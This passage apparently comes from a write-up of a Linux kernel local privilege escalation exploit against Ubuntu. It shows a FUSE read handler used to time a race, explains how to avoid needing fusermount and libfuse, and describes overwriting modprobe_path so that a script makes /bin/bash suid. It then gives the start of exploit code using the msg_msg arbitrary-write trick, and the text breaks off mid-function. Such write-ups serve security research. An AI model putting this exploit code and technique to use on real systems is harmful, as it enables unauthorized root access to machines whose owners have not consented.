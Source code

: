 int evil_read(const char *path, char *buf, size_t size, off_t offset,
              struct fuse_file_info *fi)
{
    // change to modprobe_path
    char signal;
    char evil_buffer[0x1000];
    memset(evil_buffer, 0x43, sizeof(evil_buffer));
    char *evil = modprobe_win;
    memcpy((void *)(evil_buffer + 0x1000-0x30), evil, sizeof(evil));

    size_t len = 0x1000;

    if (offset >= len)
        return size;

    if (offset + size > len)
        size = len - offset;

    memcpy(buf, evil_buffer + offset, size);

    // sync with the arb write thread
    read(fuse_pipes[0], &signal, 1);

    return size;
}

There were two difficulties however with this FUSE race technique. Normally, as a normal unprivileged user, you need access to a suid /bin/fusermount binary. Performing the unshare which triggered our own user namespace’s creation would allow us to skip that requirement. Another issue is that a user would require libfuse libraries for libfuse functions to work, as libfuse is notoriously difficult to statically link, as seen here because it specifically relies on dl_open for some extra features. We addressed this by removing all the references to dl_open and rebuilding the library. Static compilation then worked nicely and this technique would work on any system with CONFIG_FUSE enabled regardless of libfuse or fusermount availability.

One last thing with this exploit… where do we target? For the exploit simplicity’s sake, we only targeted modprobe_path (the classic modprobe_path kernel pwning trick) for our Ubuntu LPE exploits. We overwrote it with the path to a script that made /bin/bash suid, and this script will trigger with root privileges whenever anyone attempts to run a binary with an invalid header. Here is our Ubuntu LPE exploit so far:

// msg_msg arb write trick by hanging before msg_msgseg on usercopy
// use FUSE to time the race
void do_win() 
{
    int size = 0x1000;
    char buffer[0x2000] = {0};
    char pat[0x1000] = {0};
    msg* message = (msg*)buffer;
    memset(buffer, 0x44, sizeof(buffer));

    void *evil_page = mmap((void *)0x1337000, 0x1000, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS | MAP_FIXED, 0, 0);
    uint64_t race_page = 0x1338000;
    msg *rooter = (msg *)(race_page-0x8);
    rooter->mtype = 1;
    size = 0x1010;
